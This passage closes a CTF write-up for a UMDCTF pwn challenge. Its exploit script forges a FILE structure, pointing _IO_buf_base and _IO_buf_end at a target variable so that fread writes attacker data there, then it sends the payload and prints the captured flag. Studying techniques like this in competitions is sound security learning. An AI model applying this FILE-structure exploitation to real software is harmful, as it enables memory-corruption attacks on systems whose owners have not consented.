 ```python 
payload += p64(0)                      # _IO_read_ptr          # set all reads to null to force fread to read from stdin
payload += p64(0)                      # _IO_read_end         
payload += p64(0)                      # _IO_read_base
payload += p64(0)                      # _IO_write base        # set writes to null because we are not using them
payload += p64(0)                      # _IO_write_ptr
payload += p64(0)                      # _IO_write_end  
payload += p64(aura_addr)              # _IO_buf_base      # start of address to write to
payload += p64(aura_addr + 0x10)       # _IO_base_end      # end of address to write to 
payload += p64(0) * 8                  # int _fileno somewhere here
payload += p64(0)                      #_IO_lock (after int _fileno)

p.sendline(payload)

# our stdin (fread uses this to write into aura)
p.sendline(b'A' * 100)                 # if you send as little as 16 you can read the flag 

p.interactive()
```
- xpl.py 


```
[*] Switching to interactive mode
UMDCTF{+100aur4}
\x03
```
- 🥶🥶🥶


Thanks for reading :3 

